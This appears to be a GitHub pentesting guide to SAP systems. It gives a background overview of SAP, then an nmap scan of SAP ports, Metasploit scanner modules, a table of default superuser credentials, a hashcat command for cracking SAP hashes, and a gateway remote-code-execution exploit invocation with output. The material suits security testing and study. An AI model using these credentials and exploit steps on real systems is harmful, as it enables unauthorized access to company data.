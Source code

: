 ### 1 - Introduction:

SAP stands for **Systems, Applications, and Products in Data Processing** and distributes ERP (Enterprise Resource Planning) software which allows to manage the activity of large and small companies. ERP stands for Enterprise Resource Planning and is a business process management system that automates and integrates all of an organization's core business processes into a shared database to streamline processes and information across the organization.

#### SAP Provides 5 ERP: 

- **SAP ERP (SAP)**: This is the classic suite that can be deployed on site, on a public IaaS or in a private cloud. SAP also offers companies to migrate SAP ERP to a PaaS by converting it to S/4HANA.
- **S/4HANA**: S/4HANA is the **new generation** of ERP from SAP. Used primarily by medium and large companies with annual revenues of at least $250 million.
- **S/4HANA Cloud**: This is the SaaS version of S/4HANA.
- **SAP Business One**: SAP Business One is SAP's ERP suite for **small and medium-sized enterprises** (SME). This suite is designed for companies with up to 350 employees.
- **SAP Business ByDesign**: this is the SaaS version of SAP and allows to do financial management, including CRM, HRIS/HCM and more...


#### Systems covered by SAP include:

- Enterprise Resource Planning (ERP) - supports the basic internal business processes of a company
- Customer Relationship Management (CRM) – helps companies acquire and retain customers, gain marketing and customer insight
- Product Lifecycle Management (PLM) – helps manufacturers with product-related information
- Supply Chain Management (SCM) – helps companies with the process of resourcing its manufacturing and service processes
- Supplier Relationship Management (SRM) – enables companies to procure from suppliers


#### SAP Specific terms:

##### What is a CLIENT ?

The SAP client concept allows an organization to split a system into logical subunits and they contains independent information and data. The number of clients in a SAP system directly influences the following:

- **Buffer**: The number of clients impacts buffering demand. An example is main memory usage.
- **Upgrade**: Different activities are affected by SAP upgrades, where run timers are longer, depending on the number of clients.

*SAP Client Roles:*
- **Client CUST**: Used for making developments and serving other customer-specific requirements. The SAP transport management system is used to move CUST client changes to other clients.
- **Client QST**: Defined for testing and verifying various applied changes.
- **Client PRD**: Used for production and business activities.

*Known Clients:*
- **000** : this client is called as golden client which is provided by SAP as refrence client.
- **001** : this client is called as configuration client which have all the SAP standard customizing client.
- **066** : is the earlywatch client for SAP use.

Architecture based on SAP:

![image](https://user-images.githubusercontent.com/75935486/153075669-6a7c6b54-b522-44c2-8605-f4761f84ebe5.png)

 The **Internet Communication Manager** (ICM) sets up the connection to the Internet and process both server and client Web requests and the Central services (message server and enqueue server) is used for lock administration, message exchange and load balancing in the SAP system.
 
 **AS ABAP components:**
 - The dispatcher: distributes the requests to the work processes.
 - The work processes: executes ABAP or Java programs.
 - The SAP Gateway: provides the RFC interface between the SAP instances.
 
 **AS Java components:**
 - The Server Processes: execute Java requests.
 - The instance controller: controls and monitors the life cycle of the AS Java instance.

### 2 - Discovery:

Port Scanning
```python
nmap -sCV -T3 --min-rate=3000 -p 1128,3201,3299,3301,3901,4901,4902,4903,8101,30101,30102,30103,30104,30107,30108,30111,30116,40000,40001,40002,40080,46287,50000,50001,50004,50007,50013,50014,50020,50113,50114 127.0.0.1
```

useful metasploit scanners:
- `msf > use auxiliary/scanner/sap/sap_service_discovery`
- `msf > use auxiliary/scanner/sap/sap_router_info_request`
- `msf > use auxiliary/scanner/sap/sap_router_portscanner`
![image](https://user-images.githubusercontent.com/75935486/153283849-44179f29-e785-4ce5-b725-50a7fe357814.png)


#### Proxying SAPRouter:
```bash
set proxies sapni:<network-ip>:3299
```

### 3 - Password Stealing & Hash Cracking:

###### Default Credentials:

User ID | Description | Clients | Password |
--- | --- | --- | --- |
SAP* | Super user | 000,001, 066 new clients | 06071992, PASS
DDIC | ABAP Dictionary super user | 000,001 | 19920706 
EarlyWatch | User for the EarlyWatch Service | 066 | SUPPORT
SAPCPIC | Communication User | 000,001 | ADMIN 

###### Cracking hashes:

![image](https://user-images.githubusercontent.com/75935486/153094382-443663fc-52d1-4ad8-ab4b-48723ce661f6.png)

*example*: Cracking ***SAP CODVN B (BCODE)** hash `TESTUSER1$D1FD06BD3B0744D9` using hashcat:
```bash
hashcat -m 7700 hash -a 0 /usr/share/wordlists/rockyou.txt  --force
```
![image](https://user-images.githubusercontent.com/75935486/153094640-3f9a9408-3e1e-41ff-9cbe-03923d898818.png)


### 4 - Code Execution:

> https://github.com/chipik/SAP_GW_RCE_exploit

```bash
➜python SAPanonGWv1.py -t 172.16.30.28 -p 3300 -c whoami
[*] sending cmd:whoami
RistBS
```
